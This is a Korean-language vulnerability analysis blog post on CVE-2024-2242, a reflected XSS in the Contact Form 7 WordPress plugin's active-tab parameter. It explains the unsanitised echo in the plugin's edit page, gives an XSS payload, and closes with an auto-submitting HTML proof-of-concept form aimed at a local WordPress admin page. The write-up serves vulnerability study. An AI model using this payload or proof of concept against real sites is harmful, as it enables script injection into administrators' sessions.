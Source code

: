 ```yaml
---
title: "[CVE-2024-2242] 취약점 분석 보고서"
description: "Contact Form 7 플러그인 5.9 이하 버전에서 발생하는 Reflected XSS"
author: khh
date: 2025-01-20 09:53:00 +0900
categories: [One-Day 분석, WordPress]
tags: [빡공팟, 콘테스트 네뷸라, WordPress, CVE, Reflected XSS]
image: assets/img/wordpress-thumbnail.png
exclude_img: true
---
```


## 개요

Contact Form 7 플러그인 5.9 이전 버전까지 모든 버전에서 active-tab 매개변수를 통한 Reflect XSS 취약점이 발생합니다.

## 분석

취약점은 contact-form 편집하는 곳에서 발생합니다. 글을 편집하고 저장을 누르면  active-tab 파라미터로 값이 전달됩니다. 만약 여기에 악성 스크립트가 삽입된다면 XSS 취약점이 발생합니다.

![image.png](assets/posts/one-day/2025-01-20/image-001.png)

### edit_contact-form.php

![image.png](assets/posts/one-day/2025-01-20/image-002.png)

편집 기능이 있는 edit_contact-form.php 코드입니다. active-tab으로 전달되는 값이 echo 뒤에 $_GET 요청으로 입력값 검증 없이 바로 처리하고 있으므로 Reflected XSS 취약점이 발생하게 됩니다.

## 취약점 테스트

![image.png](assets/posts/one-day/2025-01-20/image-003.png)

contact form 편집에서 글을 작성하고, 저장합니다.

![image.png](assets/posts/one-day/2025-01-20/image-004.png)

active-tab 값을 따로 설정하지 않으면 ‘0’으로 설정됩니다. 이 부분에 '"><svg/onload=prompt(7);>{{7*7}} 페이로드를 삽입하면 input 태그가 닫히면서 뒤에 악성 스크립트가 실행됩니다. 

## POC

```html
<html>
  <body>
    <form action="http://localhost:5000/wp-admin/admin.php">
      <input type="hidden" name="page" value="wpcf7" />
      <input type="hidden" name="post" value="212" /> <!-- post id -->
      <input type="hidden" name="cftsearch_submit" value="1" />
      <input type="hidden" name="active&#45;tab" value="&apos;&quot;&gt;&lt;svg&#47;onload&#61;prompt&#40;7&#41;&#59;&gt;&#123;&#123;7&#42;7&#125;&#125;" /> <!-- insert attack payload into value property. HTML Entity>
      <label class="screen-reader-text" for="<?php echo esc_attr( $input_id ); ?>"><?php echo $text; ?>:</label>
      <input type="submit" value="Submit request" />
    </form>
    <script>
      history.pushState('', '', '/');
      document.forms[0].submit();
    </script>
  </body>
</html>

```

reference: <https://github.com/RandomRobbieBF/CVE-2024-2242>